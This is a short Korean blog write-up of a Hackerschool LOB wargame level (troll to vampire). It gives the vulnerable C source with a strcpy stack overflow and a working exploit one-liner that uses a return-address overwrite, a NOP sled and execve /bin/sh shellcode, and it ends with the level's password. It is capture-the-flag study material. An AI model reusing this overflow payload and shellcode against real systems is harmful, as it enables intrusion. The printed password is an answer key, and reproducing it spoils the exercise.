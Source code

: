 ```yaml
---
date: '2022-10-21'
before : '2022-10-10'
after : '2022-10-22'
title: 'FTZ LOB LEVEL 9'
categories: ['C-SEC', 'KOR', 'PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기__ __전에__

물론 HTB를 시작하긴 했지만, pwn공부도 천천히, 또 꾸준하게 해 나갈 생각이다. 결국 HTB에서도 pwn 기법을 사용할 일도 있거니와, 어차피 내년 초 CCNA 딸 때까지는 계속해서 양쪽의 기법에 익숙해지고, 또 여러가지 머신을 풀어나가며 해킹 프로세스도 손에 익히는 시간을 가질 예정이다. 


### 1. Level 9 : Troll -> Vampire

```
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```

```
./vampire `python -c 'print "D"*44+"\x28\xf3\xfe\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
비밀번호 : music world
 ---
## Source

- 해커스쿨 FTZ
- Me!
